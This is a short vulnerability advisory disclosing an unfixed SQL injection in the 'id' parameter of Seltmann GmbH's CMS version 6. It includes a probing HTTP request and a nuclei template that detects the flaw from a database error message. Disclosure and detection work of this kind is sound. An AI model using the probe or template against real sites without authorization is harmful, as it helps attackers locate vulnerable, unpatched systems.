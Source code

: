 # Seltmann GmbH / Content Management System 6 - SQL-Injection


**CVE-ID:** -


**Vendor:** Seltmann GmbH (https://www.seltmann-webdesign.de/)

**Affected Product:** Content Management System

**Affected Versions:** 6

**Vulnerability:** SQL-Injection

**Status:** Unfixed

**Severity:** Critical



## Details

The `id` parameter of the `/index.php` endpoint in the Content Management System of the *Seltmann GmbH* is vulnerable to SQL-Injection.

```http
GET /index.php?controller=index&function=change_lang_redirect&id=1%22&url=something HTTP/2
Host: localhost
[...]
```


## nuclei template
```yaml
id: seltmann-cms-sqli-id
info:
  name: Seltmann GmbH Content Management System 6 SQL-Injection "id"
  author: blockomat2100
  severity: high
  description: Seltmann GmbH Content Management System 6 SQL-Injection "id"
  reference:
    - https://github.com/blockomat2100/PoCs/blob/main/seltmann_gmbh_cms.md
  tags: cve

requests:
  - method: GET
    path:
      - '{{BaseURL}}/index.php?controller=index&function=change_lang_redirect&id=1"&url=/'
    redirects: true
    # without cookie reuse the template will not work
    cookie-reuse: true
    max-redirects: 7
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - DB IO-Error
      - type: regex
        part: body
        condition: or
        regex:
          - '(Content\sManagement\sSystem\s\|\s)(Version\s\d\n)([\w\d\W]+)(Seltmann GmbH)'
```

